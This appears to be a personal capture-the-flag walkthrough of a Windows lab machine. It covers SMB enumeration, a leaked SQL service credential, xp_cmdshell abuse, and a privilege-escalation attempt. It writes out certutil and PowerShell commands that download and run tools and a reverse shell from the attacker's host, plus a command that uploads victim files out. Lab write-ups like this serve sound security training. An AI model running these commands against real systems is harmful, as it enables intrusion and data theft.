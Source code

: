 ==Target ip== 10.129.95.187

# 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.129.95.187 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.129.95.187`

==Result of basic scan==

![[Pasted image 20250518173247.png]]

-> ==Thinking==: Ok there is a lot here
1. It's obviously a Windows machine
2. SMB is running (something we can look into)
3. 2017 SQL Server
4. httpd 2.0 running. I don't know what SSDP/UPnP is, but we can research it.

# Let's try enum4linux
`enum4linux -a 10.129.95.187` -> does **all** simple enumeration

==findings==:  

[+] Server 10.129.95.187 allows sessions using username '', password '' <- Anonymous sessions over SMB

Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none <- Vaild usernames

# Try to connect to an smbshare without creds
`smbclient -L \\10.129.95.187\\ -N`

==Findings==: 
1. This lists out a non default share called "backups", let's check that out. <- We do not have access to ADMIN$
	- `smbclient //10.129.95.187/backups -N`
	- This shows a file that we can get.
![[Pasted image 20250518174844.png]]

==Very small sorry== There is a username and password in this file!
And This is the file it appears to be XML. I am not totally sure what to do with that but I know XXE is a think, time for some research. 

ID = ARCHETYPE\sql_svc
Password = M3g4c0rp123

==What this file is==: this is **XML**, specifically a **DTS (Data Transformation Services) configuration file** used by SQL Server Integration Services (SSIS).

# Going to 10.129.95.187:5985
Gives a 404. I am not sure why, maybe we can check on this later.

### The creds work for SMB, but not for the admin share.

# Lets use impacket `mssqlclient.py` to try the creds on the sql server:

Impacket location on my machine: `/usr/share/doc/python3-impacket/examples/`

==Command== 
`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth

*Login with password*

Tried these commands: 
"
SELECT SYSTEM_USER;
EXEC xp_cmdshell 'whoami';
"
But xp_cmdshell is not enabled. ==But we can enable xp cmdshell because we are domain admin!==

==Listing privileges==
![[Pasted image 20250518181401.png]]

==Limited privileges for Sql_svc. It is database admin but not OS-level admin==  What we need to do is upload a tool that can check for privilege escalation.

BUT -> SeImpersonatePrivilege allows for token impersonation, so we can try to upload a tool and take advantage of that.

**What is token impersonation?**: A technique where a lower-privileged user **impersonates a higher-privileged user’s security token** to perform actions they normally wouldn't be allowed to — like becoming `SYSTEM`.

### I need to download printspoofer and cross-compile it with mingw-w64

**Connect to the smbshare:** `smbclient //10.129.95.187/backups -U 'ARCHETYPE\sql_svc'`

==I cannot upload printspoofer on there, I need to find another way==

==Idea==: Maybe I can host the file on a python server and reach out with the database?

1. `python -m http.server 80` <- in the printspoofer directory
2. What is my ip? `ip a` -> look for tun0 (10.10.16.54)
3. *Log in to sql server*
4. `EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.16.54/PrintSpoofer.exe C:\Users\Public\PrintSpoofer.exe';` 
     <- Livin off the land!
 5. Verify its location `EXEC xp_cmdshell 'dir C:\Users\Public\PrintSpoofer.exe`
 6. Run it `EXEC xp_cmdshell 'C:\Users\Public\PrintSpoofer.exe -i -c cmd.exe';` ==The command did not work==
![[Pasted image 20250518220744.png]]

-> What now? 
	1. Maybe the print service is not running? or
	2. The machine is patched, we'll have to find another way (==I think getting winpeas on the machine and running it would be good!==)
	3. Got a reverse shell from here => https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#:~:text=Got%20stderr%20working%20with%20this%20modification%3A
	4. Setup a Python server and ran this command to fetch the reverse shell: `EXEC xp_cmdshell "powershell -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.54/revshell2.ps1')";`
	5. Run winpeas
	6. ==The user flag is in the sql_svc Desktop==

# How to upload a file from the victim machine to the attacker: 
*on the victim machine with python server on the attacker machine*
`powershell -Command "(New-Object Net.WebClient).UploadFile('http://10.10.16.54/upload', 'C:\Users\Public\winpeas_output.txt')"`